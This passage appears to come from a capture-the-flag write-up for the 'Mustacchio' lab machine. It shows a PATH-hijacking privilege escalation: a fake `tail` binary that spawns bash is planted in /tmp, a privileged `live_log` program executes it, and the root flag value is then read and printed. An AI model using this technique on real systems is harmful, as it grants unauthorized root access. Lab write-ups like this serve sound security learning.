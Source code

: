 Change to the tmp directory then overwrite the `tail` binary to execute a bash shell, and add execution permission. 

```bash
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod +x tail
```

Now when you execute the binary “live_log” with sudo rights, it will search for `tail` binary in the PATH env variable and will find it in the tmp folder, hence, executing our fake tail binary! 

![Alt](/images/Mustacchio/10.webp)

We can now search for the root flag. 

```bash
root@mustacchio:/root# cat 
.bashrc   .profile  root.txt  .ssh/     
root@mustacchio:/root# cat root.txt
3223581420d906c4dd1a5f9b530393a5
```

Done!.
